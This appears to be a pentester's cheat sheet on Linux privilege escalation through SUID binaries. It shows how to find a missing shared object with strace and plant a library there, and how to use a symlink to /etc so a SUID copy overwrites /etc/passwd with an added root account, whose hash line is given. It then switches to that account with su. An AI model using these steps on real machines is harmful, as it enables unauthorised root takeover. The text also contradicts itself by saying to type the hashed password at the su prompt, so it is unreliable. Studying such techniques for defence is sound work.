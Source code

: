Look for missing shared object files with strace (`vulnerable_bin` here being the SUID binary we can access):

```bash
strace /usr/local/bin/vulnerable_bin 2>&1 | grep -iE "open|access|no such file"
```

One result is:
```bash
#...
open("/home/user/libs/libexample.so", O_RDONLY) = -1 ENOENT (No such file or directory)
```

If we can write to that location, then we have won.

Just create that `libexample.so` binary at the given location and you are gold. Execute the suid binary and your own binary will be executed.


## Symlinks

If a SUID binary naively copies (and overwrites) the content of one directory to another and we control both locations, then we can overwrite arbitrary files.

In the source directory create a tampered version of the /etc/passwd file. Add another root user at the bottom with some password hash.

Example (password is cowabunga77):
```bash
hack:$1$hack$Ms0RDU0fPwY2uBBL9/Cnb/:0:0:root:/root:/bin/bash
```

Replace the target directory with a symlink to `/etc/`
```bash
ln -s /etc /path/of/target
```

Once the SUID binary copies over the the files from the source directory, they will overwrite whatever files are in /etc/ with the same name.

Afterwards confirm that passwd is overwritten. Then you can just use `su` to switch to the new root user.

```bash
su hack
# type the hashed password when prompted
# now you are root
```

Worth noting is though that **this will not work if the symlink is in a directory with sticky bit set** (like /tmp/). In those directories the symlink needs to be owned by the same user who follows it.


## Bash Function Highjacking

In **Bash before version 4.2-048**, you can define functions with the same names as absolute program paths.
